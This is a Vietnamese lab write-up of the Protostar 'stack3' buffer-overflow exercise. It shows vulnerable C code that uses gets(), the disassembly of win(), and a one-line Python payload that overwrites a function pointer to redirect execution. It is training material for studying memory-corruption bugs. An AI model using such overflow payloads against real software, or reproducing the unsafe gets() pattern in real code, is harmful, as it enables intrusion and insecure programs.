

# stack3

## Description

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
 
void win()
{
  printf("code flow successfully changedn");
}
 
int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];
 
  fp = 0;
 
  gets(buffer);
 
  if(fp) {
      printf("calling function pointer, jumping to 0x%08xn", fp);
      fp();
  }
}
```

Bài này cũng tương tự các bài trước, ta chỉ cần tìm địa chỉ của hàm win rồi tìm cách gán cho biến fp.

```ASM (Intel syntax)
0x08048424 <+0>:     push   ebp    
0x08048425 <+1>:     mov    ebp,esp    
0x08048427 <+3>:     sub    esp,0x18    
0x0804842a <+6>:     mov    DWORD PTR [esp],0x8048540    
0x08048431 <+13>:    call   0x8048360 <puts@plt>    
0x08048436 <+18>:    leave      
0x08048437 <+19>:    ret
```

Ta có địa chỉ hàm win tại `0x08048424`

## Solution

### ghi đè fp

payload:`python -c 'print "a"*64+"\x24\x84\x04\x08"' | ./stack3`

